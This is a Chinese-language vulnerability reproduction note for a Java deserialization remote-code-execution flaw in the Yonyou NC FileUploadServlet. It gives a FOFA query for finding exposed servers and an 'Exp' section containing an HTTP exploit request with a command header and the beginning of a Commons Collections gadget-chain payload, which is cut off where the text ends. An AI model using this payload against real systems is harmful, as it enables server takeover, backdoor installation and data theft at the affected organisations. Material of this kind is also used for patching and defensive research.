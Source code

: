 
# 用友 NC FileUploadServlet 反序列化 RCE 漏洞复现

### 0x01 产品简介

 用友 NC 是用友网络科技股份有限公司开发的一款大型企业数字化平台。

### 0x02 漏洞概述

  用友 NC nc.file.pub.imple.FileUploadServlet 反序列化漏洞，攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="用友-UFIDA-NC"

![](assets/1701746394-d4c1eebb0d893707673ebb2c121f98b9.png)

### 0x04 漏洞复现

Exp 

```http
POST /servlet/~baseapp/nc.file.pub.imple.FileUploadServlet HTTP/1.1
Host: {{Hostname}}
Cmd: whoami
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 20434

{
  {unquote("\xac\xed\x00\x05sr\x00\x11java.util.HashSet\xbaD\x85\x95\x96\xb8\xb74\x03\x00\x00xpw\x0c\x00\x00\x00\x01?@\x00\x00\x00\x00\x00\x01sr\x004org.apache.commons.collections.keyvalue.TiedMapEntry\x8a\xad\xd2\x9b9\xc1\x1f\xdb\x02\x00\x0
```
